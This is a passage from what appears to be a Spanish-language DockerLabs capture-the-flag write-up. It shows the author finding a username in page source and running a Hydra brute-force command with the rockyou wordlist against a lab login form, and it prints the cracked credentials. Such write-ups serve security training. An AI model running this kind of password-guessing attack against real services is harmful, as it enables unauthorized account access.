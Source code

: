 Al inspeccionar el código fuente, encuentro un comentario con un nombre de usuario.

![](assets/img/dockerlabs-writeup-flow/flow1_2.png)

Utilizo Hydra para realizar un ataque de fuerza bruta sobre el formulario, empleando el usuario encontrado.

```terminal
/home/kali/Documents/dockerlabs/flow:-$ sudo hydra -l d1se0 -P /usr/share/wordlists/rockyou.txt 127.17.0.2 http-post-form "/index.php:username=^USER^&password=^PASS^&Login=Iniciar+Sesión:¡Ups\+Las+credenciales+no+son+correctas.+Intenta+nuevamente."
[80][http-post-form] host: 127.17.0.2   login: d1se0   password: amigos
```

![](assets/img/dockerlabs-writeup-flow/flow1_3.png)
